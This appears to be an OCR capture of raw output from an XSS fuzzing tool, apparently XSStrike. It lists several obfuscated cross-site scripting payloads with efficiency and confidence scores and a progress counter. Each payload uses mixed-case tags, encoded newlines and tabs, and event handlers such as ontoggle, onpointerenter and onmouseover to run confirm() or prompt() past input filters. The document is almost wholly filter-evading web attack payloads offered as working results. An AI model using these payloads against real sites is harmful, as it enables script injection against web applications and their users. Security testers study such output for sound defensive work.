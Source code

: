 ------------------------------------------------------------
 Payload: <a%0aONpOIntereNTeR+=+[8].find(confirm)//v3dm0s 
 Efficiency: 93 
 Confidence: 10 
 Progress: 114/1536
 
 Progress: 115/1536
 
------------------------------------------------------------
 Payload: <detAILS/+/oNtOGGle%0a=%0a[8].find(confirm)// 
 Efficiency: 92 
 Confidence: 10 
 Progress: 116/1536
 
 Progress: 117/1536
 
------------------------------------------------------------
 Payload: <dEtAIlS%0donTogglE+=+(confirm)()%0dx// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 118/1536
 
------------------------------------------------------------
 Payload: <d3V%0aOnPoiNterENteR%0a=%0aa=prompt,a()%0dx//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 119/1536
 
------------------------------------------------------------
 Payload: <DEtAILs/+/onPOINTERenteR%0d=%0dconfirm()// 
 Efficiency: 92 
 Confidence: 10 
 Progress: 120/1536
 
------------------------------------------------------------
 Payload: <HtmL%0dONPOINTeRenTEr%09=%09a=prompt,a()%0dx// 
 Efficiency: 92 
 Confidence: 10 
 Progress: 121/1536
 
------------------------------------------------------------
 Payload: <a%09OnMousEoVER%0a=%0a(confirm)()%0dx//v3dm0s 
 Efficiency: 91 
 Confidence: 10 
 Progress: 122/1536
 
------------------------------------------------------------
 Payload: <d3V/+/ONmOusEoVEr+=+(confirm)()//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 123/1536
 
------------------------------------------------------------
 Payload: <a%09onPoINTEReNTER%09=%09confirm()%0dx//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 124/1536
 